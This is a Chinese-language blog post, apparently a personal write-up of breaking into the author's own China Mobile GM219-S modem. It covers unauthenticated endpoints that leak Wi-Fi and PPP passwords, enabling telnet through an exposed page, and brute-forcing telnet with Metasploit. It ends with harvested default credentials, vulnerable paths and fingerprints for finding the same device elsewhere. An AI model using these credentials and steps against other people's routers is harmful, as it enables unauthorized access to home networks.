```yaml
---
layout: post
author: Vulkey_Chen
title: "记一次移动光猫（GM219-S）安全测试"
date: 2019-03-12
music-id: 1348044876
permalink: /archives/2019-03-12/1
description: "记一次移动光猫（GM219-S）安全测试"
---
```


# 前言

过个年，WiFi密码忘记了...光猫管理密码也忘记了（这个光猫也不支持物理按钮重置设置），但是手机还连着WiFi，正规操作找回不了密码，那就用咱们测试的思维来试试PWN掉这个路由器。

# 过程

## 未授权获取WiFi连接密码

还好之前没闲着，发现管理的几个未授权访问的接口如下:

获取宽带账号密码: `/GET_USER_WAN_PPP_INFO.json`

获取 WLAN 连接信息: `/GET_WLAN_LINK_INFO.json`

获取 DHCP 信息: `/GET_NET_DHCP_INFO.json`

手机访问 `http://192.168.1.1/GET_WLAN_LINK_INFO.json` ，获取密码：xxx，电脑连接登录

## 信息收集

### 端口收集结果

```shell
Scanning promote.cache-dns.local (192.168.1.1) [1080 ports]
Discovered open port 80/tcp on 192.168.1.1
Discovered open port 8080/tcp on 192.168.1.1
```

### 目录扫描结果

获得的一些目录：

```shell
/login.html
/login.asp
/index.asp
/telnet.asp
/upgrade.asp
...
```

## 突破口

在目录扫描的时候，发现`/telnet.asp` -> 跳转到 `/cgi-bin/telnet.asp` 如下图所示界面：

![open_telnet](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/cmcc-pentest/open_telnet.png)

这个功能可以开启光猫的`telnet`服务，先开启，然后再使用Nmap扫描下端口：

```shell
Scanning promote.cache-dns.local (192.168.1.1) [1080 ports]
Discovered open port 8080/tcp on 192.168.1.1
Discovered open port 80/tcp on 192.168.1.1
Discovered open port 8023/tcp on 192.168.1.1
```

发现多了个8023端口，其对应的服务果然是telnet：

```shell
8023/tcp open  telnet
| fingerprint-strings:
|   GenericLines:
|     Star-Net Broadband Router
|     Login:
|     Password:
|   GetRequest:
|     Star-Net Broadband Router
|     Login: GET / HTTP/1.0
|     Password:
|   Help:
|     HELP
|     Star-Net Broadband Router
|     Login: Password:
|   NCP:
|     Star-Net Broadband Router
|     Login: DmdT^@^@^@
|     ^@^@^@^A^@^@^@^@^@
|   NULL:
|     Star-Net Broadband Router
|     Login:
|   RPCCheck:
|     Star-Net Broadband Router
|     Login:
|     ^@^@(r
|   SIPOptions:
|     Star-Net Broadband Router
|     Login: OPTIONS sip:nm SIP/2.0
|     Via: SIP/2.0/TCP nm;branch=foo
|     From: <sip:nm@nm>;tag=root
|     <sip:nm2@nm2>
|     Call-ID: 50000
|     CSeq: 42 OPTIONS
|     Max-Forwards: 70
|     Content-Length: 0
|     Contact: <sip:nm@nm>
|     Accept: application/sdp
|     Password:
|   tn3270:
|     ^@IBM-3279-4-E
|     ^YStar-Net Broadband Router
|_    Login:
```

telnet开启，爆破一波走起。（Caimima生成个密码口令）

![caimima](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/cmcc-pentest/caimima.png)

试了nmap貌似没啥用，开个msfconsole来爆破：

```shell
use auxiliary/scanner/telnet/telnet_login
set RHOSTS 192.168.1.1 #设置模板
set RPORT 8023 #设置端口
set USER_FILE /root/user.txt #设置用户字典
set PASS_FILE /root/pass.txt #设置密码字典
exploit 192.168.1.1 #启动
```

幸运的是爆破出来了，是组合弱口令：

![telnet_brute](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/cmcc-pentest/telnet_brute.png)

## 获取密码

运行`telnet 192.168.1.1 8023`输入账号密码进去，执行`sh`发现可以直接进入shell：

![telnet_shell](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/cmcc-pentest/telnet_shell.png)

接下来就是找密码到处瞎翻（没有PWN路由器的经验，很难受），执行 `ls -a -l` 发现有软链接，很多指向了`/tmp`目录：

![ls](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/cmcc-pentest/ls.png)

于是进入`/tmp`目录，到处翻腾：

![tmp](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/cmcc-pentest/tmp.png)

利用这几个关键词看看是否有文件中包含了：`admin`、`CMCC`(中国移动)、`password`、`user`

e.g. `grep 'admin' ./*`，等了老半天了，发现`/tmp/ctromfile.cfg`文件内有点东西：

![admin](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/cmcc-pentest/admin.png)

复制密码登录，怼进去：

![cmccadmin](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/cmcc-pentest/cmccadmin.png)

## 信息整合

做完测试并针对测试过程的信息进行整合，最后形成字典以便后面再次遇到～

- 通过读配置文件获取的一系列用户名、密码：`9vvrr、admin、aDm8H%MdA、CMCCAdmin、telnetuser、user`

- 文件、目录路径：
    - `/GET_USER_WAN_PPP_INFO.json`
    - `/GET_WLAN_LINK_INFO.json`
    - `/GET_NET_DHCP_INFO.json`
    - `/telnet.asp`
    - `/index.asp`
    - `/user.html`
    - `/upgrade.asp`
    - `/cgi-bin/`
    - `/content.asp`

- 指纹特征：
    - 标题：`HGU LOGIN`
    - 图片：`/webstyle/images/login-mobile-qrcode-anhui.png -> 23cb4f5e63e0cd47f8788a6ca3558eab`
    - JS：`/webstyle/js/br_login_nc.js`

# 结尾

最后我只是默默的把user用户密码改了一下～
